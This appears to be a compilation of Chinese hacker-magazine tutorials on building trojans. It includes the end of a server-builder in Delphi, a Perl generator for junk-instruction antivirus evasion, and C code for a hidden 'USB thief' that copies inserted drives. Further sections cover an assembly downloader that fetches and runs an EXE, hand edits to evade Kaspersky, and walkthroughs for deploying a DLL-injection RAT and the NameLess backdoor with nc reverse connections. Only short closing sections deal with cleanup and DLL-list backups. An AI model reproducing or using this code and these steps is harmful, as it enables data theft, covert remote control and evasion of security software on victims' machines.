var
  // 设置变量
  Buff, ziyuanzhizhen: PChar;
  ziyuanweizhi: HRSRC;
  ziyuandaxiao, BytesWritten: Longword;
  shujuchulibing, shengjingzhizhen: THandle;
  port, backip: string;
begin
  try
    port := Trim(edit1.Text);
    backip := Trim(edit2.Text);
    ziyuanweizhi := FindResource(HInstance, 'ojeteen', RT_RCDATA);
    ziyuandaxiao := SizeofResource(HInstance, ziyuanweizhi);
    shujuchulibing := LoadResource(HInstance, ziyuanweizhi);
    ziyuanzhizhen := LockResource(shujuchulibing);
    shengjingzhizhen := CreateFile(pchar(Edit3.Text), GENERIC_WRITE, FILE_SHARE_WRITE, nil, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
    WriteFile(shengjingzhizhen, ziyuanzhizhen, ziyuandaxiao, BytesWritten, nil);
    SetFilePointer(shengjingzhizhen, offset_port, nil, FILE_BEGIN);
    Buff := PChar(port + StringOfChar(#0, 6 - Length(port)));
    WriteFile(shengjingzhizhen, Buff, 6, BytesWritten, nil);
  except
  end;
end;
```

上边代码 SetFilePointer 中的 offset_port 为要开始写的地址，就是我们上面定位的参数的地址。Buff 里面的 6 为 AXXXXX 的长度，WriteFile 里面的 6 也是。

我们来测试一下，运行服务端生成器，填写好配置信息，然后点击生成，这样服务端就生成了。接下来就是测试能不能运行了。使用 nc 监听本地设置的端口，然后运行服务端。图5是我测试的结果。


Yeah，成功了！本文只是一个简单的生成配置器制作教程，不过方法和道理都是一样的，我们掌握了这个方法，就可以制作出一个更好的生成配置程序了。本文完整的程序代码，已收录在当期光盘中供大家测试和参考。

## VS—一个菜鸟自己配的花指令

相信给自己的木马做过免杀的朋友都知道花指令吧！在《黑客X档案》06年第9期的主题乐园里也曾经详细介绍了如何使用花指令来使自己的木马不被查杀的方法。不过，他们使用的花指令基本上都是别人公布在网上的已生成好的花指令。

对于这些已被公布的花指令和花指令添加器，菜鸟们可以直接拿来使用。同样的，杀毒软件厂家也可以直接拿来研究，所以这些花指令的免杀效果并不理想。虽然对于有汇编基础的老鸟来说，可以写出自己的花指令，但写花指令的过程比较麻烦，因此我才萌生了编写一个花指令生成器的想法，绝对首创哦，希望各位菜鸟喜欢^-^。

加大了杀毒软件对木马的查杀难度。

### 一、写花指令生成器必备知识

#### 1. 花指令原理

什么是花指令呢？各位菜鸟可以把它理解成程序中的无用代码，程序多了它没有影响，少了它也能正常运行。加入花指令后，杀毒软件对木马静态反汇编时，木马的代码就不会正常地显示出来。

#### 2. 如何写花指令

下面我们先看一段花指令，分析理解它的原理：

```asm
PUSH EBP
MOV EBP, ESP
push edx
pop edx
inc ecx
dec ecx
add esp,24
add esp,21
add esp,10
sub esp,10
JMP 附近空地址(短便跳)
JMP 原入口点
```

花指令一般有三部分，开头常见 `PUSH EBP` 和 `MOV EBP, ESP`，接着是对寄存器与堆栈的无效操作组合，最后通过跳转回到原入口点。

文中举例说明 `push/pop`、`inc/dec`、`add/sub` 的配对抵消效果，并解释短跳与长跳在花指令中的用途。

#### 3. 如何写入花指令

- 准备好要加花指令的程序。
- 准备未加壳的黑客软件。
- 使用 OllyDbg 打开并记录入口点地址。
- 找到空白地址后逐句写入花指令并跳回入口点。
- 保存并修改入口点到花指令起始位置。
- 运行检查程序及免杀效果。

### 二、开始写花指令生成器

介绍用 Perl 编写花指令生成器的思路，并引出流程图（图1）。


需要定义花指令数组与跳转语句数组，配合 `for` 循环和 `rand` 函数进行随机读取，达到自动生成花指令的目的。

#### 2. 代码编写和分析

```perl
#!/usr/bin/perl
if($#ARGV<0){
  print "Usage: ...";
  exit(1);
}
$N=$ARGV[0];
if($N<1){
  print "错误：请输入大于1的数字";
  exit(0);
}
```

解释 `#!`、`@ARGV`、`$ARGV[0]` 的含义：当没有输入参数或参数小于1时输出帮助或错误信息。


说明将输入参数赋给变量 `$N`，用于控制花指令长度；并通过条件判断保证参数有效。

```perl
$H1='push edx\npop edx\n';
$H2='push eax\npop eax\n';
$H3='inc ecx\ndec ecx\n';
$H4='add esp,10\nsub esp,10\n';
$H5='add esp,21\nadd esp,-21\n';
$H6='nop\nnop\n';
@H=( $H1,$H2,$H3,$H4,$H5,$H6 );
```

定义数组存储花指令语句；Perl 数组可包含变量、表达式、数值、字符串，也可为空。

```perl
@lst=(
  1,
  2,
  3,
);
```

为清晰起见采用分行书写；随后打印花指令开头：`PUSH EBP` 与 `MOV EBP,ESP`。

```perl
for($i=1; $i<=$N; $i++){
  $rand1 = int(rand(@H));
  print("$H[$rand1]");
}
```

讲解 `for` 循环执行流程：初始化、条件判断、循环体、条件变更；直到不满足条件退出。

```perl
函数名：rand
调用语法：retval = rand(num);
rand：随机函数，返回 0 和参数 num 之间的一个浮点数。
```

运行过程是先给 `$i` 赋值 1，再比较 `$i` 是否小于等于 `$N`，是的话执行循环体，就是用 `rand` 函数读取 `@H` 数组，赋值给 `$rand1`，再用 `print` 打印出来。执行一遍后 `$i++`，就是 `$i=$i+1`，`$i` 的值增加 1，再比较 `$i` 是否小于等于 `$N`，是的话再继续执行循环体，直到 `$i` 大于 `$N` 为止。

```perl
$J1='JMP 附近空地址随机跳回入口点\n';
$J2='je 跳回入口点\njne 跳回入口点\n';
$J3='jz 跳回入口点\njnz 跳回入口点\n';
$J4='jb 跳回入口点\njge 跳回入口点\n';
$J5='jl 跳回入口点\njge 跳回入口点\n';
$J6='ja 跳回入口点\njle 跳回入口点\n';
$J7='jg 跳回入口点\njle 跳回入口点\n';
@J=(
  $J1,
  $J2,
  $J3,
  $J4,
  $J5,
  $J6,
  $J7
);  # 跳转指令数组
```

这就是跳转语句的数组了，跳转语句在花指令中的作用是程序执行完花指令再跳回文件的原始入口点执行程序，一般用的是 `JMP` 无条件转移指令。我们把 `je` 等于时转移和 `jne` 不等于时转移组合起来就成了 `JMP`。以此类推，`jb` 若小于则跳和 `jge` 大于等于转移，`jl` 若小于则跳和 `jge` 大于等于转移，`ja` 若大于则跳和 `jle` 若小于等于则跳等结合就成了 `JMP`。这样我们有很多不同组合，可以加大杀毒软件对木马的查杀难度。

```perl
$rand2 = int(rand(@J));
print @J[$rand2];  # 随机生成跳转指令并打印出来。
```

最后还是用 `rand` 函数读取跳转数组，这里只需读取一次并打印出来。

#### 3. 测试工具

代码写好了，程序很简单，但功能可不一般哦，看看效果吧，如图3。


## 从 C 到 VC 的跨越——U 盘大盗的简单实现

最近有些小菜在 X 的论坛上抱怨说学校教大家的 C 语言课程学完了以后一个软件也写不出来。其实，这是一个很普遍的现象，学校教给大家的只是 C 语言的基础，真正要开发软件还需要学习 Windows 下的编程才行。今天，我们就以一个简单的 U 盘大盗为例：从设计到编译再到优化，教菜鸟们如何从 C 跨越到 VC，写出属于自己的第一个黑客软件。

### 一、U 盘大盗的设计

U 盘大盗的功能是当别人往我们的电脑上插入 U 盘之后，程序就在后台偷偷地把 U 盘上所有的文件和数据保存下来。首先要判断一个磁盘分区是不是 U 盘，假如判断出 E 盘是移动设备（U 盘）后，我们只需要执行一个系统命令 `Copy E:\* D:\abc`，就可以把 U 盘下所有东西复制到 D 盘的 abc 文件夹中。

### 二、代码实现

- 首先根据不同的情况将该命令写入一个 bat 文件里。
- 使用 `system` 函数执行该 bat 文件。

> 注意：上边的 `D:\abc` 必须是已经存在的目录，否则命令会执行失败。

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    char USB='e';
    FILE *f;
    f=fopen("USB.bat","w+");
    fprintf(f,"copy %c:\\* D:\\abc",USB);
    fclose(f);
    system("USB.bat");
}
```

> **VC 编程知识恶补**：将上述代码保存为 `test.c`，在 VC 中编译、连接并运行，生成可执行文件 `test.exe`。

> Ctrl+5 驱动器运行这类命令，不过如果你确实因为盘里数据很多，建议大家二次确认你删除的是普通硬盘分区，不小心执行的话就会把 E 盘或 F 盘等内容删到 D 盘去……

我们编译好的程序现在运行的时候会有个黑框框出来，这是因为这个程序是命令控制台下的。我们马上改成无界面的。有两种方法：一种方法是把链接参数 `/subsystem:console` 改为 `/subsystem:windows`；另一种一劳永逸的方法是使用 VC 新建一个 Win32 Application 的工程，步骤如下：

- 打开 VC，选择“文件”-“新建”。
- 选择“工程”，在工程里选中“Win32 Application”，在右边为该工程起名字并选择好保存路径，单击“确定”，如图1。


- 在新的界面中选择“A simple Win32 application”，单击“完成”，如图2。


- 确定后，来到“FileView”视图中，展开“Source Files”菜单，可以找到你命名的 cpp 文件（这里是 Ustolen.cpp），如图3。

这是一个典型的 Windows 下的应用程序，和我们平时见到的 main 函数稍微有点不同，它的结构如下：

```cpp
#include "stdafx.h" // 头文件加在这里

int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
```


```cpp
// TODO: 这里写原来的main函数里的代码

return 0;
```

把头文件和代码都复制上去之后，我们还需要修改一下所使用的函数，把 `system("USB.bat")` 改成 `WinExec("USB.bat", SW_HIDE);`，如图4。

现在再单击“编译”按钮进行编译，没有出错的话我们就可以单击“执行”按钮了，这次是不是一点反应都没有呢？实际上程序可是在后台成功执行了哦！


> **小知识：关于 WinExec。** 刚才调用的函数就是传说中的 Win32 API，也就是 Windows 下的 32 位应用程序接口。类似于 C 提供给我们的 `printf` 一样，使用的时候也要包含头文件就好了。

## 三、完美我们的 U 盘大盗

刚才我们是假设了 E 盘为 U 盘设备，但在实际应用中这样做肯定是不行的，因此我们需要使用一小段代码来检测当前的移动设备。微软给大家提供了一个函数叫 `GetDriveType`，这个函数的参数只有一个，如 `GetDriveType("D:")`，它会返回这个驱动器的类型，如果是 USB 设备的话返回的就是 `DRIVE_REMOVABLE`，现在检测 U 盘的方法也就简单了，代码如下：

```cpp
bool checkdisk()
{
    char szDriveName[4]={0};
    wsprintf(szDriveName,"C:\\");
    for(szDriveName[0]='C'; szDriveName[0]<'Z'; szDriveName[0]++)
    {
        // 不断改变盘符并检测驱动器类型
    }
}
```

```c
if (GetDriveType(szDriveName) == DRIVE_REMOVABLE) {
    USB = szDriveName[0];
    return true; // 如果发现是可移动设备就把它传给 USB 变量并返回 true
}
return false; // 如果遍历一遍没有找到，那就返回 false
```

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    bool bVirusMode = false;
    // 注意默认是 false，也就是病毒模式关闭
    // 如果需要隐藏到系统目录并自启动，可以改成 true
    if (bVirusMode)
        VirusFunc();

    InitData();
    Scandisk();    // 不断扫描，直到找到可移动磁盘再执行后续指令
    Writereturn(); // 对拷贝出的数据作简单加密
    Movefile();    // 这里是复制数据的函数
    return 0;
}
```

> **关键词解释：BOOL**  
> 在学校里学的 C 语言里是没有 BOOL（布尔）这种类型的，值只有 TRUE 和 FALSE，其实就是 0、1。这个函数中 BOOL 类型的返回变量控制是否找到了 U 盘。

其实制作一个 U 盘木马还需要考虑很多事情，例如多久检测一次盘符，对复制出来的数据是否覆盖、加密隐藏等等。我已经为每一个功能都专门写了一个函数，我们只需要在 WinMain 里一个函数一个函数地调用就可以了。例如需要 4 秒扫描一次全部盘符，就可以写这样一个函数：

```c
void Scandisk()
{
    while (!Checkdisk()) {
        Sleep(4000); // 扫描后停止 4 秒（Sleep 参数是毫秒）
    }
}
```

将主要的功能函数凑在一起就得到了主程序，代码如下：

```c
int WINAPI WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    ...)
```

- 好了，因为这是我和小菜们自己完成的第一个 VC 程序，所以更多的东西我们就不深入了。详细内容请参考光盘里收录的完整代码。以后有机会还可以给大家讲解一些理论，教大家学会利用别人的源代码，快速开发属于自己的程序。

> **小结**  
> 不会写程序的小菜不是好菜鸟。可是在好多菜鸟研究软件习惯了以 C 语言为主后，现在转写汇编很可能会不习惯。因为小狼们特别为菜鸟推荐了汇编这个工具，希望大家能多想想编程核心和创意。以后不管菜鸟会不会说得更多，好的核心代码、算法、流程都值得学习。

（文字中涉及到的相关代码已收录到光盘）


## 教菜鸟使用汇编、VC、VB 制作下载者

### 一、前言

我们这次的目标是使用 Win32 汇编编写下载者，使用 VC 制作生成器，然后使用 VB 制作 GUI 外壳。

### 二、5 秒生成 PE 文件

我使用的方法是申请一个字符数组，然后读取指定文件的每一个 byte 的数据并存储，最后在内存中还原。有点儿像 exe2bat 的方法，但是 exe2bat 不能对数据进行配置，所以我们的目标是将其配置成 PE 文件。这样做的好处是加载一个二进制资源更稳，因为加载二进制资源的语句可被一些软件查出有附加资源而被视为捆绑过的文件。这个思路的操作方法是使用我写的这个小工具生成 cpp 文件，然后直接调用就可以了。这套工具的主要核心是 exe2cpp.exe 文件，用 GUI 界面调用一下。强烈建议你使用命令行下的版本，因为命令行下的版本可以校验生成的文件大小，来确定是否生成成功！

### 三、使用汇编编写迷你的下载者

使用汇编编写程序其实有很多优点：高效、简洁，而且体积小，这些特点决定使用汇编最适合编写下载者。废话不说了，直接看代码：

```asm
.386
.model flat, stdcall
option casemap:none
includelib d:\masm32\lib\kernel32.lib
includelib d:\masm32\lib\urlmon.lib
include d:\masm32\include\kernel32.inc
include d:\masm32\include\urlmon.inc
include d:\masm32\include\windows.inc

.data
URL db 'http://...',0
EXE db 'svchost.exe',0

.code
start:
    invoke URLDownloadToFileA, 0, addr URL, addr EXE, 0, 0
```

## 黑客编程

```asm
invoke WinExec,EXE,0 ; 启动它
invoke ExitProcess,NULL ; 来结束自己
end start
```

注释得很清楚了，即使你没学过汇编也没关系，因为在一些简单的程序里，汇编和 C 差不多。解释一下那个 URL，我写成了 200 个 A，一会儿我们就要配置它。

这个下载者只能下载一个文件并运行，而且只能是 EXE 文件，不过你可以改造它，把它改成一次下载多个文件。把那个 URL 写好几个，比如 URLa、URLb，然后给它们直接写上网址，当然也可以是 200 个 B，然后重复地再写几遍 `invoke URLDownloadToFileA` 和 `invoke WinExec,EXE,0`，随便你想下载几个都可以。然后就是编译、链接。我已经做好了批处理，各位读者自己修改一下路径就可以了。

如果我们手工编译的话，其命令为 `d:\masm32\bin\ml.exe /c /coff /Cp download.asm; d:\masm32\bin\link.exe /SUBSYSTEM:WINDOWS download.obj`。好了，生成的下载者体积为 2.5k，这是没加壳的体积。

### 四、用 VC 制作命令行下的配置器

打开 exe2cpp_GUI，选择我们刚才编译出的下载者，释放文件名随便填，但是不要和下载者下载到本地保存的文件名相同就行了，再点下 make，就可以了。

使用 UltraEdit32 打开我们的下载者，找到 200 个 A 的地方（应该很明显），我找到的偏移量是 0x800（图1）。


然后把生成的 pecpp.cpp 复制到另一个目录里，在这个目录新建个 win32 console application 工程，在头文件里添加一句 `#include "pecpp.cpp"`。

```cpp
#include "stdafx.h"
#include "pecpp.cpp"
#include <stdio.h>
#include <windows.h>
#include <string.h>
void main(int argc, char* argv[])
{
    if (argc!=2)
    {
        printf("\n\r sdown v1.0 ... Usage ...");
    }
    else
    {
        bytecpy(pedata,0x800,200,argv[1],strlen(argv[1]));
        createpe();
        printf("Create s7lx.exe Sucessful");
    }
}
```

上边代码中调用了函数 `void bytecpy(BYTE d[],DWORD x,DWORD bufsize,char r[],DWORD a)`，这个可是我的 exe2cpp 里给你专门生成的，不是 Win32API 哦。解释一下参数：第一个是数组名（pedata）；第 2 个是偏移量（0x800）；第 3 个是目标缓冲区大小（200）；第 4 个是你填写的内容（argv[1] URL）；第 5 个是要填写的字符串长度。编译一下，完成了。

配置器有点儿大，有 100 多 k 呢，这样很不爽，我们配置一下编译参数，给它减减肥。

打开“编译->配置”，点“移动”，然后确定，这时候我们的工程就是 Release 版的了；然后选择“工程->设置”，在“C/C++”那项里选择“Code Generation”（图2），然后在下边的“Use run-time library”中选择 multithread dll（图3）。再在“Link”里把“增加链接”和“产生调试信息”前面的勾去掉，然后“确定”，看看怎么样，我们的配置器体积变成了 16k 了（像我的一样带个图标就是 20k）。


接下来，我们再给它加个 FSG2.0 的壳，体积就会变成 2.89k 了，和我们的下载者本身差不多了。其实 FSG2.0 也可以在命令行下加壳，各位想到了什么没有？对，那就是将 FSG2.0 也一起编译到我们的配置器里，然后释放出来加壳，最后再删掉就行了。这个就留给各位当作家庭作业来完成了。

### 五、使用 VB 制作 GUI 外壳

这个相信许多人都很拿手，不过我没学过 VB，只好突击学习了一下。给大家带来的是个模板，以后自己写 GUI 外壳全是这个样子，改一下就好了。

在窗体上制作一个 text，再弄上两个 command，就 OK 了。代码不多，我直接贴出来，不懂的朋友直接看工程就好了。

```vb
Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hWnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long

Private Sub Command1_Click()
    If Text1.Text = "" Then
        MsgBox "请输入网址", vbInformation, "Error!"
    Else
        Shell "sdown.exe http://" + Text1.Text, vbHide
        MsgBox "生成 s7lx.exe 成功", vbInformation, "sdown_GUI"
    End If
End Sub

Private Sub Command2_Click()
End
End Sub
```

上边代码中的那个 Shell 是调用外部程序的函数，还有个参数 vbHide，意思是在后台运行。

### 六、关于免杀

可是，我们辛辛苦苦制作出来的下载者，居然可以被卡巴检测出来，如图4。我们还得做下免杀处理。


高手们制作免杀都是先用 CCL 定位，然后反汇编。如果特征码处是指令，就使用等效指令或指令顺序颠倒；如果特征码处是字符，那就改大小写。不过，我们不麻烦，因为我们有源代码。对于我们真正有用的指令就是如下 3 行：

```asm
invoke URLDownloadToFileA,0, addr URL, addr EXE,0
invoke WinExec,addr EXE,SW_HIDE
invoke ExitProcess,NULL
```

这些后面还有宏的用法，invoke 就是倒序压栈，然后 call。比如 `invoke ExitProcess,NULL` 就表示是：

```asm
push NULL
call ExitProcess
```

而 addr 就是取地址，`addr EXE` 就是 `lea eax,EXE`。我们先手工展开所有的宏，然后改几处。比如将：

```asm
lea eax,EXE
push eax
```

修改成：

```asm
lea ebx,EXE
push ebx
```

将 `push 0` 改成：

```asm
mov ecx,0
push ecx
```

然后再加上指令跳转，大家看一下我修改后的代码：

```asm
start:
  jmp ok
exe:
  invoke lstrcpy,addr EXEa,addr EXE
  invoke WinExec,addr EXEa,SW_HIDE
  push 0
  jmp over
ok:
  mov eax,0
  mov ebx,0
  push ebx
  push eax
  lea ecx,EXE
  push ecx
  push 0
  pop eax
  lea eax,URL
  ...
```

```asm
push eax
push ebx
call URLDownloadToFileA
jmp exe
over:
call ExitProcess
end start
```

说白了就是等效指令和跳转，因此大家都可以自己修改；然后重新使用 exe2cpp 生成，再用 VC 重新编译；VB 外壳不用修改，这样是不是比用 MFC 方便啊！

> （文中涉及到的程序代码以及编译后的程序已收录于光盘中）

## 解决文件关联问题

有时当我们清除木马之后，有些文件就不能运行了，这是因为这类文件被木马关联了，这是木马破坏文件关联的常见问题。文件与程序的关联关系被破坏后，会导致 exe 等文件无法正常打开。

通常我们遇到的大多是 exe 文件被关联，所以大部分程序都无法运行。可在安全模式下打开 cmd，输入 `ftype exefile`、`assoc .exe` 等命令查看并修复默认关联。

这种方法较麻烦，如果木马关联了不止一种文件类型，就需要更高效的工具。文中推荐 System Repair Engineer（SREng），可用于检查并修复系统文件关联等问题。


打开 SREng 会自动检测文件关联，若状态显示错误可点击“修复”。此外还可进行系统设置、浏览器加载项、host 文件等项目的检查与修复。

在使用过程中，如果杀毒软件没有报毒，也可以用它进行辅助排查，帮助处理这类棘手问题。

## DLL 木马攻防战

冰河先剑


现在的杀毒软件种类越来越多，什么 64 位杀毒、启发式扫描、主动杀毒等等，名词越来越多。像我等菜鸟根本就搞不清楚其中内容是什么。不过经常玩黑的我们，却也知道各种各样的病毒木马往往是不惧杀毒软件的。比如 DLL 进程插入式木马就让许多杀毒软件力不从心，尽管猪的电脑也曾经在使用 DLL 木马，结果为讲解这个木马实在太专了，笔下天，不止没被杀毒拦住还活得挺久……

中内置了“希网”域名控件，无需下载安装各种动态域名客户端，就可以通过动态域名实时更新 IP，非常适合肉鸡的从 0 到 100 规模控制。


### 第一部分 菜鸟看“DLL 注入”木马

什么是 DLL 注入木马？从名字来看，当然是与 DLL 文件有关的木马了。DLL 文件是 Windows 中的库链接文件，是 Windows 系统中许多驱动和程序运行时必需的文件。DLL 文件与 EXE 文件不同，是不能直接运行的，那么 DLL 插入木马是如何在用户电脑中运行的呢？……DLL 木马必须通过宿主来调用 DLL 文件，实现远程控制的功能。

#### 一、最好的 DLL 插入式木马——上兴远控 2006

为了让像我一样的菜鸟能够快速搞清楚什么是 DLL 木马，下面就向大家介绍一款我觉得最好用的 DLL 注入木马——“上兴远程控制 2006 V3.2”版。现在上兴推出了 V3.4 版，但我觉得还是 3.2 版好用，因为新版中去掉了原有的域名更新 IP 控件，操作不是很直观。

- 1．上兴远控木马特色

上兴远程控制木马是一款极为强大的 DLL 注入木马，支持域名反弹连接进行远程控制，可以注入到各种系统程序中，有效躲避防火墙，并且不被杀毒软件所查杀。


- 2．设置服务端

我们先来看服务端设置。点击界面中的“配置服务端”按钮，打开服务端生成程序。在“安装设置”选项中，可以设置木马在远程主机运行后的安装方式。其中“安装名称”是远程主机运行木马安装程序时的文件名，默认是“server.exe”。“DLL 名称”是木马运行后生成的 DLL 文件，默认为“rejoice.dll”。“备注”用于在客户端识别管理安装了木马的主机。

- （1）DLL 注入设置

在许多远程主机上都安装了防火墙，并且防火墙设置为高等级，普通反弹连接木马会被拦截。为突破防火墙，上兴木马提供了注入选项，可将木马进程注入到被防火墙许可的系统进程中。在“DLL 名称”中输入生成的服务端 DLL 文件名。木马运行后，该 DLL 将被注入到“宿主进程名”指定的系统进程中，默认为“explorer.exe”。

- （2）内网动态域名设置

有许多黑友处于内网中，只有内网 IP 地址，没有公网 IP 地址，无法使用反弹连接木马。动态域名反弹连接就是解决这个问题的好办法。通过支持内网接入方式的动态域名服务，内网用户也可以架设 WEB 服务并实现远程控制。上兴木马提供“希网动态域名”和“咚网动态域名”等方式，可在服务端设置界面中申请并配置。

网站（http://www.3322.org）。点击免费注册“新用户注册”，注册一个您喜欢的用户名，如图3。用注册的用户名登录，单击导航栏的“管理域名”，选择“动态域名”→“新建”。在域名中填入您喜欢的并且没有被别人使用的名称，提交后出现确认页面，即可获得一个“http://用户名.3322.org”的域名，如图4。


返回上兴木马，在刚才的服务端设置对话框的“DNS 域名解析更新 IP”中输入申请的动态域名，如图5，并设置木马连接的端口和连接密码。还可以勾选“使用 UPX 压缩服务端”按钮，将生成的客户端程序进行 UPX 压缩加壳，以防杀毒软件查杀。设置完毕后点击生成按钮，即可生成木马文件“rejoice_06.exe”。

> 小提示：上兴木马也支持 FTP 更新 IP 地址，点击界面中的“FTP 更新 IP”页，在 FTP 服务器上设置一个可访问的文本文件即可。不过 FTP 更新 IP 地址的方式，不适合某内网用户。

- 3．远程控制连接

在远程主机上运行服务端程序后，就可以进行远程连接控制了。返回上兴木马主界面，点击软件界面中的“更新 IP”按钮，弹出 IP 更新设置对话框，如图6。在这里输入刚才申请的域名和用户名及登录密码，并设置好本机的内网 IP 地址。


设置完毕后，点击“更新 IP 到希网域名”按钮，提示更新成功后关闭对话框。在上兴木马主界面中的“上兴端口”处，填写生成木马时设置的木马连接端口，默认端口 1080；确定后客户端程序就会自动监听本地的“1080”端口，接受远程木马上线后发来的连接请求。


在上兴木马中间的列表中显示了已建立连接的远程主机，并显示了该主机的 IP 地址、主机名、Ping 值等。右键点击主机名称，在弹出菜单中显示了各种远程控制命令，包括文件管理、系统管理、远程 Shell、屏幕捕捉、键盘记录等，如图7。


在右键菜单中选择“超级终端”命令，即可打开一个远程连接的命令行窗口，在其中可以输入各种命令进行远程操作，例如新建用户、更改用户名密码等，如图8。选择“服务端控制”命令，在对话框中可以控制远程计算机下载执行某个文件，也可以对某个网站展开 DDOS 攻击等，如图9。

此外，上兴木马还提供了远程屏幕控制、摄像头监控、键盘记录等功能，可以完全控制远程主机，这里就不多详述了。

#### 二、手动 DLL 注入—NameLess BackDoor

从上兴远程控制木马的配置安装到远程控制，小菜们一定可以发现 DLL 木马的功能是如此的强大，不仅运行时非常隐蔽，而且很容易就可以穿透防火墙。不过 DLL 木马的 DLL 文件是如何注入到进程中的呢？小菜们一定还是不很清楚，没有感性的认识。

- 1．NameLess BackDoor 简介

NameLess BackDoor 是一款新兴的 DLL 型木马，它汇集了两款经典木马的优点——小榕的 BITS 和 WinEggDrop 的 PortLess。这两款大名鼎鼎的木马都曾经风光一时。NameLess BackDoor 在目标机器的进程管理器中看不到，平时没有端口，提供正向连接和反向连接两种功能。

- 2．安装木马，手工注入

下载 NameLess BackDoor 木马，压缩包中有两个名为 NameLess.dll 的 DLL 文件，一个 Pack 压缩加过壳的，一个是 Unpack 未压缩加壳的。要将木马安装到远程的电脑上，最简单的就是扫描要攻击电脑上的系统漏洞，然后进行远程入侵并下载。我们将上面的任意一个“NameLess.dll”文件上传到远程主机上。在这里笔者是使用 Telnet 远程连接后，写入一个 FTP 下载的 BAT 文件；直接在本地建立了一个 FTP 服务器，通过 FTP 服务器下载上传文件。

在远程 Telnet 命令窗口中切换到文件上传目录中，并输入命令 `Rundll32 NameLess.dll,Install`（如图10）。执行该命令后门就被安装成功了，后门会自动替换系统服务 Sens 的 ServiceDll 文件，在电脑重启后以 “Svchost.exe” 加载启动。也就是说我们的 DLL 木马已经手工注入到系统进程 “Svchost.exe” 中了。


- 3．远程连接控制

NameLess BackDoor 提供了两种连接方式，分别是正向连接和反向连接，其中反向方式连接可以让防火墙不会发出任何提示。同时 NameLess BackDoor 在连接后门时使用了端口复用技术，通过重用系统进程开放的任意一个端口，因此可以轻松穿透各种防火墙。

我们首先需要扫描远程主机上开放了哪些端口。假设某台远程主机（IP 地址为：192.168.1.11）开放了 139 端口，那么可以在本地打开一个命令窗口，切换到瑞士军刀 NC 所在目录中，运行命令 `nc -l -p 12345`，命令执行后将在本地监听 12345 端口；然后再打开一个命令窗口，输入命令 `nc 192.168.1.11 139`（如图11）。建立连接后输入 `dargun|192.168.1.11:12345`（如图12），其中的 IP 地址可根据具体情况进行更改。命令执行后在刚才的监听窗口中就可以看到出现了连接提示：“Enter Password:”，输入密码 158352692 后就可以成功登录远程主机而不被防火墙发现了。


现在就可以控制远程主机了，NameLess BackDoor 的强大也体现在它的控制功能上。连接登录远程主机后，输入 `help` 命令，即可看到详细的命令帮助信息（如图13）。如果你使用过 winshcl 或 wineggdropshcl 的话，应该对这种模式的后门不会陌生。即使从来没有使用过这样的后门，也会感觉很简单。例如直接在命令窗口中输入 `findpass` 命令，很快就可以看到管理员的密码了（如图14）。


#### 三、DLL 进程插入病毒的特点

如果小菜们在自己的电脑上测试了上面的两个 DLL 木马，首先会发现 DLL 木马与一般木马与众不同的地方。以上兴远控木马为例，在自己的电脑上安装了上兴后，用杀毒软件查杀，杀毒软件会报警提示发现病毒，但是使用杀毒软件进行清除病毒时，却无法杀掉木马病毒文件“rejoice.dll”（如图15）。换成手工清除病毒，也无法删除病毒文件，甚至进入安全模式也无法成功删除！这是由于通常 DLL 木马会放入到正在运行的系统进程中，如“explorer.exe”“svchost.exe”“smss.exe”等进程。这些进程是系统关键进程，因此达到了保护 DLL 木马无法被杀毒软件查杀的目的。即使杀毒软件扫描到了这些系统进程被病毒感染，也会报告无法将其清除。

另外，上兴远控之类的 DLL 木马可以设置注入的进程，如果是注入到“iexplore.exe”或“svchost.exe”之类的系统进程中，而这些进程往往是被许可访问网络的，所以可以突破防火墙的封锁。另外，像 NameLess BackDoor 之类特殊的 DLL 木马，还可以实现端口复用、注册为系统服务、多线程守护等，使得 DLL 木马的隐蔽性更高，查杀难度更大。总之，DLL 木马非常难以清除掉！

常用的 DLL 备份工具有 PS。PS 是一个功能强大的 NT 进程/内存模块查看器。使用方法很简单，使用命令 `ps.exe /a /m > dll.log`，即可将当前系统中所使用的 DLL 文件名全部置入“dll.log”文件中，如图16。以后系统出现问题时，可以用同样的方法导出 DLL 文件列表，再用下面介绍的手工方法对比查找出木马 DLL 文件。

再介绍一个强大的审计工具 Wininterrogate V0.1.7，这个软件可以更为直观方便地完成备份 DLL 的工作。运行软件后，在界面的“Interrogation Type”项中设置类型为“Processes”，在下方勾选“Lists DLLs”项，点“Save as”按钮，即可保存所有 DLL 文件列表，如图17。由于列表文件是以 CSV 格式保存的，因此当系统出现 DLL 木马症状后，可以再次将新的 DLL 文件列表导出，然后用 Excel 调入对比分析，非常方便地查找出有问题的 DLL 文件。

## 第一部分：DLL 文件备份与木马 DLL 的查找

由于 DLL 进程插入的木马病毒非常难以查杀，而且 DLL 木马的功能强大，防火墙和杀毒软件往往都对它们无能为力，因此要保证自己的安全，最好是防患于未然。同时，在未中 DLL 木马之前，采取严密的防范措施，也有利于中 DLL 木马之后快速方便地消除掉病毒。

#### 一、使用工具备份 DLL 文件列表

由于 Windows 系统的复杂性，要想从成百上千个 DLL 文件中查找出 DLL 木马，是非常艰难的。因此有经验的管理员，往往会在平时备份一个 DLL 文件列表。在系统出现异常时，用此列表进行对比，以便找出现在的 DLL 文件和备份时的差异，从而可以方便地查杀 DLL 木马。

#### 二、手工进行 DLL 文件的对比检查

DLL 木马的 DLL 文件一般是放在 Windows 系统的文件夹“system32”中的，因此我们可以在安装好系统和必要的应用程序后，对该目录下的 DLL 文件作一个记录，日后再进行对比查找木马 DLL 文件。方法是在“运行”中输入“CMD”，打开命令提示符窗口。切换到目录“system32”下，执行命令 `dir *.dll > dllback.txt`，如图18。这样所有的 DLL 文件名称都被记录到“dllback.txt”中了，如图19，其中还包括每个文件的时间、大小等详细文件信息，可用于日后的检查分析。

